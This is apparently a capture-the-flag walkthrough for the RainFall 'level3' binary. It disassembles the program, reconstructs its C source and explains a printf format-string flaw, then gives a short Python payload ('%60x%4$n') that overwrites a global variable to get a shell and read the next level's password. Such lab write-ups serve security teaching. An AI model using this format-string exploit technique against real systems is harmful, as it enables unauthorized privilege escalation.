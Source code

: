 # Walkthrough

##	Program type:
Running the command `file ./level3` we see the file is 32-bit ELF executable.
```
level3@RainFall:~$ file ./level3
./level3: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x09ffd82ec8efa9293ab01a8bfde6a148d3e86131, not stripped
```
Running the command `checksec --file ./level3, we see that the stack is
executable (NX disabled).
```
level3@RainFall:~$ checksec --file ./level3
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   ./level3
```
##	Content:
```
080484a4 <v>:
 80484a4:	55                   	push   ebp
 80484a5:	89 e5                	mov    ebp,esp
 80484a7:	81 ec 18 02 00 00    	sub    esp,0x218
 80484ad:	a1 60 98 04 08       	mov    eax,ds:0x8049860
 80484b2:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 80484b6:	c7 44 24 04 00 02 00 	mov    DWORD PTR [esp+0x4],0x200
 80484bd:	00
 80484be:	8d 85 f8 fd ff ff    	lea    eax,[ebp-0x208]
 80484c4:	89 04 24             	mov    DWORD PTR [esp],eax
 80484c7:	e8 d4 fe ff ff       	call   80483a0 <fgets@plt>
 80484cc:	8d 85 f8 fd ff ff    	lea    eax,[ebp-0x208]
 80484d2:	89 04 24             	mov    DWORD PTR [esp],eax
 80484d5:	e8 b6 fe ff ff       	call   8048390 <printf@plt>
 80484da:	a1 8c 98 04 08       	mov    eax,ds:0x804988c
 80484df:	83 f8 40             	cmp    eax,0x40
 80484e2:	75 34                	jne    8048518 <v+0x74>
 80484e4:	a1 80 98 04 08       	mov    eax,ds:0x8049880
 80484e9:	89 c2                	mov    edx,eax
 80484eb:	b8 00 86 04 08       	mov    eax,0x8048600
 80484f0:	89 54 24 0c          	mov    DWORD PTR [esp+0xc],edx
 80484f4:	c7 44 24 08 0c 00 00 	mov    DWORD PTR [esp+0x8],0xc
 80484fb:	00
 80484fc:	c7 44 24 04 01 00 00 	mov    DWORD PTR [esp+0x4],0x1
 8048503:	00
 8048504:	89 04 24             	mov    DWORD PTR [esp],eax
 8048507:	e8 a4 fe ff ff       	call   80483b0 <fwrite@plt>
 804850c:	c7 04 24 0d 86 04 08 	mov    DWORD PTR [esp],0x804860d
 8048513:	e8 a8 fe ff ff       	call   80483c0 <system@plt>
 8048518:	c9                   	leave
 8048519:	c3                   	ret

0804851a <main>:
 804851a:	55                   	push   ebp
 804851b:	89 e5                	mov    ebp,esp
 804851d:	83 e4 f0             	and    esp,0xfffffff0
 8048520:	e8 7f ff ff ff       	call   80484a4 <v>
 8048525:	c9                   	leave
 8048526:	c3                   	ret
 8048527:	90                   	nop
 8048528:	90                   	nop
 8048529:	90                   	nop
 804852a:	90                   	nop
 804852b:	90                   	nop
 804852c:	90                   	nop
 804852d:	90                   	nop
 804852e:	90                   	nop
 804852f:	90                   	nop
```
* The `main` function calls `v` function.

* `fgets(3)` is called inside `v`, which is a more secured version of `gets(3)`.
Allowing to specify a number of bytes to be read, eliminating any 
possibility to do a buffer overflow (by eliminating we mean the bytes to
be read should not be more than the size of the buffer itself, otherwise 
you are stupid, I mean the programmer).
* The buffer is passed directly as first argument to `printf(1)`, which allows
to utilize a format string vulnerability.

* There's an if condition comparing the value `0x40` (64 in decimal) with a 
certain variable (global variable).

* If they are equal, `fwrite(3)` writes the string `"Wait what?!"` and calls
`system(3)` with `"/bin/sh"` afterwards.

* There's no way to change the value of the global variable to match the 
compared value directly.

## Reversing:
Upon analyzing the disassembly code we concluded that the actual C code could be something as follows:

```C
#include <stdio.h>

int		some_variable = 0;

void	v()
{
	char	buffer[520]; // 0x208

	fgets(buffer, 512, stdin); // 0x200
	printf(buffer);
	if (some_variable == 64)
	{
		fwrite("Wait what?!", 1, 12, stdout);
		system("/bin/sh");
	}
}

int		main()
{
	v();
	return (0);
}

```
## Solution:

* The idea is to use printf(1) to put 0x40 (64 in decimal) in the global variable:
	* We need to find its address on the data segment, we can find it in the 
	disassembly of the 'v' function:
	```
	0x080484da <+54>:	mov    eax , ds:0x804988c <-- (Simple ;p)
	```
	* We will use the format string specifier %n to modify its value as follows:
	```
	"%60x%4$n"
	```
	The `"%60x"` part writes a padding of 60 bytes in the stdout, and `"%4$n"`
	counts those written bytes and writes in the target address (the 4th 
	address in the stack frame).
* Now lets write the python script that will enable us to access the shell using that vulnerability:

```python
import struct

system_addr = struct.pack('I', 0x804988c)

print system_addr + "%60x%4$n"
```
* Running the exploit give us access to an unauthorized shell:
```
level3@RainFall:~$ (python exp.py; cat -) | ./level3
�                                                         200
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
